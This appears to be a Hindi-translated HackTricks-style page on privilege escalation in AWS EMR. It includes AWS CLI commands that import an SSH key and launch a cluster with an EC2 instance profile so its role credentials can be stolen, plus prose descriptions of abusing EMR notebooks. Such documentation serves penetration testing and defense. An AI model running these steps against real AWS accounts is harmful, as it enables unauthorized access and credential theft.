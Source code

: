 # AWS - EMR Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EMR

**EMR के बारे में अधिक जानकारी** यहाँ है:

{{#ref}}
../aws-services/aws-emr-enum.md
{{#endref}}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

इन अनुमतियों के साथ एक हमलावर **EC2 भूमिकाओं को संलग्न करते हुए एक नया EMR क्लस्टर चला सकता है** और इसके क्रेडेंशियल्स चुराने की कोशिश कर सकता है।\
ध्यान दें कि ऐसा करने के लिए आपको **खाता में आयातित कुछ ssh प्राइवेट की के बारे में जानना होगा** या एक आयात करना होगा, और **मास्टर नोड में पोर्ट 22 खोलने में सक्षम होना होगा** (आप इसे `--ec2-attributes` के अंदर `EmrManagedMasterSecurityGroup` और/या `ServiceAccessSecurityGroup` के गुणों के साथ कर सकते हैं)।
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
नोट करें कि एक **EMR भूमिका** `--service-role` में निर्दिष्ट की गई है और एक **ec2 भूमिका** `--ec2-attributes` में `InstanceProfile` के अंदर निर्दिष्ट की गई है। हालांकि, यह तकनीक केवल EC2 भूमिका क्रेडेंशियल्स को चुराने की अनुमति देती है (क्योंकि आप ssh के माध्यम से कनेक्ट करेंगे) लेकिन EMR IAM भूमिका नहीं।

**संभावित प्रभाव:** निर्दिष्ट EC2 सेवा भूमिका के लिए प्रिवेस्क।

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

इन अनुमतियों के साथ, एक हमलावर **AWS कंसोल** में जा सकता है, एक नोटबुक बना सकता है और IAM भूमिका को चुराने के लिए इसका उपयोग कर सकता है।

> [!CAUTION]
> भले ही आप मेरे परीक्षणों में नोटबुक इंस्टेंस से IAM भूमिका को संलग्न करें, मैंने देखा कि मैं AWS प्रबंधित क्रेडेंशियल्स को चुराने में सक्षम था और IAM भूमिका से संबंधित क्रेड्स नहीं।

**संभावित प्रभाव:** AWS प्रबंधित भूमिका के लिए प्रिवेस्क arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

बस इस अनुमति के साथ, एक हमलावर **Jupyter Notebook तक पहुँच** प्राप्त कर सकेगा और इससे संबंधित IAM भूमिका को चुरा सकेगा।\
नोटबुक का URL है `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

> [!CAUTION]
> भले ही आप मेरे परीक्षणों में नोटबुक इंस्टेंस से IAM भूमिका को संलग्न करें, मैंने देखा कि मैं AWS प्रबंधित क्रेडेंशियल्स को चुराने में सक्षम था और IAM भूमिका से संबंधित क्रेड्स नहीं।

**संभावित प्रभाव:** AWS प्रबंधित भूमिका के लिए प्रिवेस्क arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{{#include ../../../banners/hacktricks-training.md}}
